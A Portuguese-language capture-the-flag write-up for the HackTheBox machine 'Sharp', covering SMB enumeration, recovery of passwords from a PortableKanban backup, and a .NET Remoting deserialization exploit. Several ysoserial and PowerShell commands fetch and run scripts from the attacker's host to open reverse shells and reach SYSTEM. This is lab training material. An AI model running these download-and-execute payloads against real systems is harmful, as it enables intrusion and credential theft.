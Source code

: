 <html>
 <body>
  <script src="https://www.hackthebox.eu/badge/148108"></script>
 </body>
 </html>


Back to all write-ups: [here](https://repo4chu.github.io/hackthebox/)


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Sharp - HackTheBox - WriteUp
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
![image](https://i.imgur.com/b8fWlNj.png)

**Tools** utilizadas:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nmap
smbclient
rpcclient
ExploitRemotingService
netcat
python
ysoserial
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
PORT     STATE SERVICE            VERSION
135/tcp  open  msrpc              Microsoft Windows RPC
139/tcp  open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
8888/tcp open  storagecraft-image StorageCraft Image Manager
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host


Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-12-08T12:21:23
|_  start_date: N/A

TRACEROUTE (using port 8888/tcp)
HOP RTT       ADDRESS
1   224.18 ms 10.10.14.1
2   224.76 ms 10.10.10.219
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
smbclient -L \\10.10.10.219 -N
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
![Image](https://i.imgur.com/Fvm7tk6.png)

Vamos ao diretório kanban
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
smbclient -L \\10.10.10.219\\kanban -N
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
![Image](https://i.imgur.com/yIbnT0B.png)

Podemos ver um arquivo chamado PortableKanban.pk3.bak que apararente ser um arquivo de backup, então vamos lê-lo
![Image](https://i.imgur.com/wWij6x7.png)

Ao abri-lo, podemos ver que, dentro do arquivo existem senhas criptografadas:
![Image](https://i.imgur.com/m4DVEag.png)

Começamos acessando o serviço SMB para copiar o programa para nossa maquina:

![Image](https://i.imgur.com/Wkz1IMK.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
smbclient \\\\10.10.10.219\\kanban -N
get pkb.zip
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Essa máquina, pela primeira vez tive que criar uma máquina Windows para usar como atacante...
Extraímos os arquivos do nosso arquivo pkb.zip

![Image](https://i.imgur.com/u7nyOBw.png)


Ao executarmos o arquivo PortableKanban.exe podemos perceber que ele faz a criação do arquivo PortableKanban.pk3.bak onde ele guarda as credenciais...
Então vamos substituir pelo arquivo PortableKanban.pk3.bak que encontramos em nosso alvo.

Ao substituir o arquivo PortableKanban.pk3, precisamos de credenciais para conseguir acessar o programa.

![Image](https://i.imgur.com/q1UFNLT.png)

![Image](https://i.imgur.com/GSP4UQv.png)

Pesquisando um pouco mais sobre o Kanban, pude perceber que dentro do programa é possivel retornar as senhas em plain-text com uma conta de Administrador...
Em nosso arquivo temos essas informações:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
{"Id":"e8e29158d70d44b1a1ba4949d52790a0","Name":"Administrator","Initials":"","Email":"","EncryptedPassword":"k+iUoOvQYG98PuhhRC7/rg==","Role":"Admin","Inactive":false,"TimeStamp":637409769245503731}
{"Id":"0628ae1de5234b81ae65c246dd2b4a21","Name":"lars","Initials":"","Email":"","EncryptedPassword":"Ua3LyPFM175GN8D3+tqwLA==","Role":"User","Inactive":false,"TimeStamp":637409769265925613}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Portanto, temos um usuário administrador e um user comum.
O que podemos fazer é tentar editar o arquivo que guarda as senhas para acessar
Primeiro, vamos remover a senha do usuário lars para conseguir a senha do usuário Administrator, para isso deixaremos o campo 'EncryptedPassword' vazio, além disso, mudaremos a parte 'Role' de user para Admin.
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
{"Id":"0628ae1de5234b81ae65c246dd2b4a21","Name":"lars","Initials":"","Email":"","EncryptedPassword":"","Role":"Admin","Inactive":false,"TimeStamp":637409769265925613}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Após isso, tentamos acessar o programa com usuário 'lars' sem senha.

![Image](https://i.imgur.com/Af60F1P.png)


Ao desmarcar a opção Hide Passwords, temos nossas primeiras credenciais:
![Image](https://i.imgur.com/fk984oq.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Administrator:G2@$btRSHJYTarg
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Com isso, podemos voltar para nosso arquivo PortableKanban.pk3 inicial.
Agora ao abrirmos o Kanban, usamos as credenciais de Administrator.

Agora temos credenciais do usuário lars e do usuário Administrator:
![Image](https://i.imgur.com/tlGO5us.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
lars:G123HHrth234gRG
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

No outro diretório do SMB, chamado dev:

![Image](https://i.imgur.com/Er6JZCu.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
smbclient \\\\10.10.10.219\\dev -U lars
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Fazemos o download de todos esses arquivos para a nossa máquina para podermos analisarmos.

Usamos o dnSpy para analisar os arquivos .exe
Dentro do arquivo Client.exe, temos uma informação interessante:

![Image](https://i.imgur.com/gUNQ87R.png)

Temos uma credencial e um endereço:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
debug:SharpApplicationDebugUserPassword123!
tcp://localhost:8888/SecretSharpDebugApplicationEndpoint
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Pesquisando sobre como interagir com esse serviço, encontramos um exploit que interage com esse serviço através do Remoting.Channels.Tcp, o [ExploitRemotingService](https://github.com/tyranid/ExploitRemotingService).

Podemos compilar ele em nossa máquina, ou já fazer o download dele [compilado](https://github.com/parteeksingh005/ExploitRemotingService_Compiled).

Agora precisamos preparar nosso payload que enviaremos atraves do ExploitRemotingService.
Para isso vamos precisar do python e também do [ysoserial](https://github.com/pwntester/ysoserial.net).

Devemos compilar o ysoserial ou baixa-lo já [compilado](https://github.com/pwntester/ysoserial.net/releases/tag/v1.34).

Após isso, devemos preparar nossa shell.
Usaremos está [shell.ps1](https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1)

Vamos usar o ysoserial para criar nosso payload:
![Image](https://i.imgur.com/UEtxowu.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
.\ysoserial.exe -f BinaryFormatter -o base64 -g TypeConfuseDelegate -c "powershell -c IEX(new-object net.webclient).downloadstring('10.10.14.136/chu.ps1')"
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Com o ExploitRemotingService enviaremos o nosso payload:
![Image](https://i.imgur.com/rcn6eSy.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
.\ExploitRemotingService.exe --user=debug --pass=SharpApplicationDebugUserPassword123! tcp://10.10.10.219:8888/SecretSharpDebugApplicationEndpoint raw +PAYLOAD
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Ao enviar o payload, devemos ativar nosso servidor python e abrir uma porta em nossa máquina para receber a conexão de nossa shell.

![Image](https://i.imgur.com/hCp7bvX.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
python -m SimpleHTTPServer 80
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![Image](https://i.imgur.com/y3AYsaE.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nc -vvnlp 1337
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Temos nossa shell inicial :)

Para escalar nossos privilégios, vamos executar o 'winpeas.exe', portanto, devemos envia-lo primeiro, vamos gerar nosso payload no ysoserial:
![Image](https://i.imgur.com/P7Mwi7Y.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
.\ysoserial.exe -f BinaryFormatter -o base64 -g TypeConfuseDelegate -c "powershell -c IEX(new-object net.webclient).downloadstring('http://10.10.14.128/winpeas.exe')"
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Ao acessar a pasta C:\users\lars\Documents\ nos deparamos com uma pasta chamada wcf, vamos compacta-la e move-la para o diretório compartilhado do SMB.
![Image](https://i.imgur.com/hgqNEMp.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Compress-Archive -LiteralPath C:\users\lars\Documents\wcf -DestinationPath C:\users\lars\Documents\wcf.zip
move-item -path C:\users\lars\Documents\wcf.zip -destination c:\dev
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Após compactar e mover para pasta compartilhada no SMB, acessamos com credenciais já obtidas e baixamos para nossa máquina:

![Image](https://i.imgur.com/4QTDFQ5.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
smbclient \\\\10.10.10.219\\dev -U lars
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
![Image](https://i.imgur.com/znyZr6A.png)


Ao baixar o arquivo para nossa máquina, podemos abri-lo no VisualStudio:
![Image](https://i.imgur.com/yEePAM8.png)

Vamos adicionar nossa linha no código e depois compilar.
![Image](https://i.imgur.com/Z1YUP68.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Console.WriteLine(client.InvokePowerShell(" iex (new-object net.webclient).downloadstring('http://10.10.14.219/chu.ps1')"));
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Transferimos os arquivos para a máquina(poderiamos ter usado o Invoke-WebRequest):

![Image](https://i.imgur.com/zLgjJS9.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
certutil -urlcache -split -f "http://10.10.14.219/WcfRemotingLibrary.dll" WcfRemotingLibrary.dll
certutil -urlcache -split -f "http://10.10.14.219/WcfClient.exe" WcfClient.exe
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Após isso, executamos nosso arquivo:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
.\WcfClient.exe
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Com isso, recebemos a conexão como r00t~

![Image](https://i.imgur.com/HMjn5Uw.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nc -vvnlp 1337
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


if i helped you, add + respect at my profile :D
<html>
 <body>
  <script src="https://www.hackthebox.eu/badge/148108"></script>
 </body>
 </html>
 
my references
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
https://parsiya.net/blog/2015-11-14-intro-to-.net-remoting-for-hackers/
https://docs.microsoft.com/pt-br/dotnet/api/system.runtime.remoting.channels.tcp?view=netframework-4.8
https://docs.microsoft.com/pt-br/dotnet/api/system.runtime.remoting.channels.tcp.tcpchannel?view=netframework-4.8
https://github.com/tyranid/ExploitRemotingService
https://eternallybored.org/misc/netcat/
https://github.com/pwntester/ysoserial.net
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
